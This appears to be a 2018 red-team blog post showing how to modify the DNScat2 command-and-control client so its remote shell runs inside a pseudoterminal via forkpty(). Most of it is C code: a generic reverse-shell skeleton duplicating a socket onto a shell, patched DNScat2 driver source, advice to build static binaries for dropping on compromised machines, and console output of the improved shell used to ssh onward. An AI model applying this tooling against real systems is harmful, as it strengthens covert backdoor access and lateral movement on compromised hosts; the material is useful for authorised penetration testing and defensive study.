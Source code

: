 ```yaml
---
layout: post
title: Beyond pty.spawn - use pseudoterminals in your reverse shells (DNScat2 example)
date: 2018-05-08 12:00:00
categories: posts
en: true
description: Quick article about how to improve well-known tools used in pentests. Forkpty() FTW!!
keywords: "forkpty, pseudoterminal, shell, backdoor, redteam, pentest"
authors:
    - X-C3LL
---
```



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Something that boils me since few years ago is the fashion of using "pty.spawn" and similar tricks to get a pseudoterminal. You does not always have python installed in the machine that you just compromised, so if you are going to drop a custom binary in that machine there is no reason to not to do the things "well". Without a pty, stuff like doing a ssh to other server, using sudo, vim, etc. is a pain in the ass. Of course there are tons of tricks to avoid this issues, but it is far better if we can avoid to use external help when we just can run a child process inside a pty just editing few lines. In this post we are going to edit a well-known tool [DNSCat2](https://github.com/iagox86/dnscat2) in order to obtain a shell inside a pty.


## From fork() to forkpty()

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Almost every tool or code snippet used to obtain a reverse shell uses a similar skeleton that we can simplify to something like this:

```c
...
pid = fork();
if (pid == -1) {
	fprintf(stderr, "F*cked!\n");
}

if (pid == 0) { // Child process...
	//Magic is a socket, a pipe, whatever...
	dup2(magic, STDIN_FILENO);
	dup2(magic, STDOUT_FILENO);
	dup2(magic, STDERR_FILENO);
	execlp("/bin/sh", "pwned", NULL);
	exit(0);
}

//Daddy's code...
...
```

We can use fork() to fork our process and call the /bin/sh binary, or we can call the cool __forkpty()__. Forkpty() is where all the magic lies:

```
DESCRIPTION
  The openpty() function finds an available pseudoterminal and returns file descriptors for the master and slave in amaster and aslave.  If name is not NULL, the filename of the slave is returned in name.  If termp is not NULL, the terminal parameters of the slave will be set to the values in termp.  If
  winp is not NULL, the window size of the slave will be set to the values in winp.

  The login_tty() function prepares for a login on the terminal fd (which may be a real terminal device, or the slave of a pseudoterminal as returned by openpty()) by creating a new session, making fd the controlling terminal for the calling process, setting fd to be  the  standard  input,  output,  and
  error streams of the current process, and closing fd.

  The  forkpty()  function  combines openpty(), fork(2), and login_tty() to create a new process operating in a pseudoterminal.  The file descriptor of the master side of the pseudoterminal is returned in amaster, and the filename of the slave in name if it is not NULL.  The termp and winp arguments, if
  not NULL, will determine the terminal attributes and window size of the slave side of the pseudoterminal.
```

So if we use forkpty(), when we do our execlp("/bin/sh"...) the shell process will be run inside a pseudoterminal. No more pty.spawn, expect, script, stty...

## Improving DNScat2
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
It is the moment to put our hands dirty. Download the code from github (https://github.com/iagox86/dnscat2/ ) and vim the file __client/drivers/driver_exe.c__.
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
First we are going to add the includes needed:

```c
...
#include <pty.h>
#include <termios.h>
...
```

Search the line `driver->pid = fork();` and edit it to use forkpty() (the original code is commented):

```
/*driver->pid = fork();*/  
   int terminalfd; // We are going to read & write to our child through it

   driver->pid = forkpty(&terminalfd, NULL, NULL, NULL); 
   if(driver->pid == -1)
   {  
LOG_FATAL("exec: couldn't create process (%d)", errno);    
exit(1);
   }  

   /* If we're in the child process... */    
   if(driver->pid == 0)
   {  
/* Copy the pipes.
if(dup2(driver->pipe_stdin[PIPE_READ], STDIN_FILENO) == -1)
  nbdie("exec: couldn't duplicate STDIN handle");   

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDOUT_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDOUT handle");  

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDERR_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDERR handle");  

 Execute the new process.
  */  
execlp("/bin/sh", "sh", "-c", driver->process, (char*) NULL);   

/* If execlp returns, bad stuff happened. */   
LOG_FATAL("exec: execlp failed (%d)", errno);  
exit(1);
   }  
```
We need to add our "terminalfd" to the "driver" structure:

```c
/* Add the sub-process's stdout as a socket. */      
   /*      
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
  */       
  
   struct termios terminal;  
   tcgetattr(terminalfd, &terminal);  // Get the attributes to change few of them
   terminal.c_lflag &= ~ECHO; 
   terminal.c_lflag &= ~ICANON;  
   tcsetattr(terminalfd, TCSANOW, &terminal);  // Set again the attributes
  
   driver->pipe_stdout[PIPE_READ] =  terminalfd; // Use it to read the output of our child  
   driver->pipe_stdin[PIPE_WRITE] = terminalfd; // Use it to write to the input of our child 
  
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
```

Lastly we need to add the flags -static (if we want a static compilation just ready to work when it is dropped in a compromised machine) and -lutil to link the libraries needed.

 `make`. Et voilà!
 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When we try to ssh other server using the original version (just download from github and compile), we see the next error message:
```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> Pseudo-terminal will not be allocated because stdin is not a terminal.

sh (localhost.localdomain) 2> 
```

With our modified version, everything works like a charm:

```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh-4.2$
sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> harlock@localhost's password: FunkyPassword
sh (localhost.localdomain) 2>
Last login: Wed May  9 09:21:41 2018

[harlock@localhost]->~ ⌚ 13:58:48
```

Nice :)!

## Final words

We used DNSCat2 as example because it is a really cool project. You can extrapolate the modus operandi and use it in other projects.
As I always say, if you find any typo or wanna comment something, feel free to reach me at twitter [@TheXC3LL](https://twitter.com/TheXC3LL)
